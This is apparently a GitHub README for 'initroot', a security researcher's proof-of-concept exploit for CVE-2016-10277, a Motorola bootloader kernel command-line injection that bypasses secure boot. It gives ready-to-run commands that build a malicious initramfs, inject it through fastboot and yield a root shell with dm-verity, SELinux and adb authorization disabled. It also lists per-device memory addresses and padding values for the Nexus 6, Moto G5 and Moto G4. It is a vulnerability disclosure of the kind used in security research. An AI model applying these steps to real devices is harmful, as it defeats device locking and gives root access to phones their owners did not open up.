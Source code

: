 # initroot: Motorola Bootloader Kernel Cmdline Injection Secure Boot & Device Locking Bypass (CVE-2016-10277) #

By Roee Hay / Aleph Research, HCL Technologies

## Instructions ##

1. Use the commited `initroot-<device>.cpio.gz`, or produce your own:
```
$ cd <initramfs folder>
$ find . | grep -v [.]$ | cpio -R root:root -o -H newc | gzip > ../initroot-<device>.cpio.gz
OR if padding is needed:
$ cp ../pad ../initroot-<device>.cpio.gz && find . | grep -v [.]$ | cpio -R root:root -o -H newc | gzip > ../tmp && ls -la ../tmp && cat ../tmp >> ../initroot-<device>.cpio.gz  && rm -fr ../tmp
$ cd ..
```
2. Our commited initramfs images have adb running as root by default. It will not ask for authorization. In addition, dm-verity is disabled on the relevant partitions
```terminal
fastboot oem config fsg-id "a initrd=<SCRATCH_ADDR+PADDING>,<initroot.cpio.gz size-PADDING>"`
fastboot flash foo initroot-<device>.cpio.gz`
fastboot continue
```
3. if you use our initramfs, `adb shell` will now give you a root shell:
```
$ adb shell
shamu:/ # id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:su:s0
```

## Verified Devices ##
| Device           | `SCRATCH_ADDR` | `PADDING`   | committed `initrams`
|------------------|--------------|-----------|---------
| shamu (Nexus 6)  | `0x11000000`   | `0x0`         | AOSP `userdebug`
| cedric (Moto G5 XT1676) | `0xA0100000`   | `0x2000000` | Release, patched `init` and `adbd` to disable SELinux, `set{u,g}id` to shell, capabilities drop and adb auth, etc
| athene (Moto G4 XT1622) | `0x90000000`   | `0x2000000` | ""


## Community Reported ##
| Device           | Reporter | Description
|------------------|--------------|-----------
| Moto G5 Plus  | [drbeat](https://github.com/drbeat)  | Injected boot property. [[proof](https://github.com/alephsecurity/initroot/issues/1)]
| Moto G4 Play (XT1609)  | [@utoprime](https://twitter.com/utoprime)   | Full Exploitation of Verizon XT1609. [[proof](https://twitter.com/utoprime/status/873941023050919936)]
| Moto G4 (XT1625) | [@EWorcel](https://twitter.com/EWorcel) | Injected initrd caused boot loops. [[proof](https://twitter.com/roeehay/status/868877672016957440)]  
| Moto G3 | [@asiekierka](https://twitter.com/asiekierka) | Injected initrd caused boot loops. [[proof](https://twitter.com/asiekierka/status/873467107090075648)]
| Other | [@jcase](https://twitter.com/jcase) | [[proof](https://twitter.com/jcase/status/868930263782313984)]

## Note ##
This vulnerability may affect other Motorola devices too: a different initramfs will be needed. A different physical address of initrd (`SCRATCH_ADDR`). `PADDING` may vary as well.

## Publications ##
1. [initroot: Bypassing Nexus 6 Secure Boot through Kernel Command-line Injection](https://alephsecurity.com/2017/05/23/nexus6-initroot/)
2. [initroot: Hello Moto](https://alephsecurity.com/2017/06/07/initroot-moto/)
3. [Motorola Android Bootloader Kernel Cmdline Injection Secure Boot Bypass](https://alephsecurity.com/vulns/aleph-2017011)



